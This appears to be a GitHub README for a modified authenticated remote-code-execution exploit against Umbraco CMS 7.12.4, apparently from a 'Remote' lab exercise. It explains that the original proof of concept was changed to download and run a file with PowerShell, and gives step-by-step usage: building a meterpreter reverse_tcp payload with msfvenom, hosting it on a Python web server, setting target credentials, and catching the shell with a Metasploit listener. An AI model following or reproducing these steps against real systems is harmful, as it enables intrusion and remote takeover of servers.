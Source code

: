 # Remote

## Umbraco 7.12.4 Authenticated RCE (updatd payload)

Original exploit: https://www.exploit-db.com/exploits/46153

Since the original exploit is a PoC it just pops up a calculator,I updated the script to download and execute a file with powershell. Build your own payload and use it with this script.

### Usage:

Create a payload: `sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.x.x LPORT=4444 -f exe -o payload.exe`

Host the payload: `sudo python -m SimpleHTTPServer 80`

Change IP Address to python web server's IP Address (line 25)

Change username,password & host (line 33,34,35)

Setup a listener with metasploit's `multi\handler`

Run the script: `python umbraco_auth_rce.py`
